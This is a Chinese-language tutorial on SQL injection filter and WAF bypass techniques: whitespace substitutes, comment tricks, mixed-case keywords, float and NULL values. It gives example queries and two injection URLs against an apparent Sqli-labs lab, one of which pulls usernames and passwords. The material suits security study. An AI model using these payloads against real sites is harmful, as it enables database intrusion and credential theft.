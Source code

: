 ## 0x00 SQL注入绕过技术概述
SQL注入绕过技术是一个老生常谈的内容，防注入可以使用某些云WAF，检测到危害语句就会进行拦截，也可以在程序中对输入参数进行过滤和拦截。  
SQL注入绕过技术有很多，但是在日渐成熟的WAF产品面前，测试的难度也越来越高。因为WAF产品规则越来越完善，防御能力越来越高，系统安全性也越来越高。

## 0x01 空格字符绕过
两个空格代替一个空格，用 Tab 代替空格，%a0=空格，URL中的空格应该被编码为+或%20。
以下可以代替空格的字符有：
```bash
%20 %09 %0a %0b %0c %0d %a0 %00 /**/ /*!*/

%09 TAB 键（水平）
%0a 新建一行
%0b TAB 键（垂直）
%0c 新的一页
%0d return 功能
%a0 空格
```
可以将空格字符替换成注释 /**/ 还可以使用 /\*!这里根据 mysql 的版本，注释中的内容不起到注释作用*/  
例如下面的两条sql语句是等价的，他们作用一样，查询出来的内容也一致。 
```sql
select * from users where id=1 /*!union*//*!select*/1,2,3,4;

select * from users where id=1 union select 1,2,3,4;
```
## 0x02 大小写绕过
将字符串设置为大小写，例如 and 1=1 转成 AND 1=1 AnD 1=1 也可以绕过关键字过滤。  
```sql
select * from users where id=1 UNION SELECT 1,2,3,4;

select * from users where id=1 UniON SelECT 1,2,3,4;
```
http://192.168.0.101:7766/Less-27/?id=999999%27%0AuNIon%0ASeLecT%0A1,user(),3%0Aand%0A%271  

http://192.168.0.145:7766/Less-27/?id=9999999%27%09UniOn%09SeLeCt%091,(SelEct%09group_concat(username,password)from%09users),3%09and%20%271  
过滤空格可以使用 %09代替。

## 0x03 浮点数绕过注入
浮点数绕过进行sql注入的使用场景是什么？哪里能用到浮点数绕过？这个后续需要补充。
```sql
select * from users where id=8E0union select 1,2,3,4;
select * from users where id=8.0union select 1,2,3,4;
```

## 0x04 NULL值绕过
select \N; 代表 null  
```sql
select * from users where id=\Nunion select 1,2,3,\N;
select * from users where id=\Nunion select 1,2,3,\Nfrom users;
```
NULL值为空值，让id的参数值等于NULL，即查询不到任何内容，就可以让回显位置返回union select的内容。
